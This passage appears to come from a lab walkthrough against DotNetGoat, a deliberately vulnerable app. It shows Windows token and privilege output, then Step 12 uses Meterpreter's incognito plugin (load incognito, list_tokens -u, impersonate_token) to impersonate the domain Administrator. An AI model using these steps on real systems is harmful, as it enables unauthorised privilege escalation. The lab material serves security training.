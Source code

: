 ```
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled ←
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

**Step 12**.

Now, let's load the `incognito` plugin and check if any high privilege user's tokens are present. 

`load incognito`, `list_tokens -u`:
```
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
IIS APPPOOL\DefaultAppPool

Impersonation Tokens Available
========================================
DOTNETGOAT\Administrator ←
NT AUTHORITY\IUSR
```

Impersonate the administrator user token to escalate the current privilege. 

`impersonate_token "DOTNETGOAT\\Administrator"`:
```
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] No delegation token available
[+] Successfully impersonated user DOTNETGOAT\Administrator ←
```
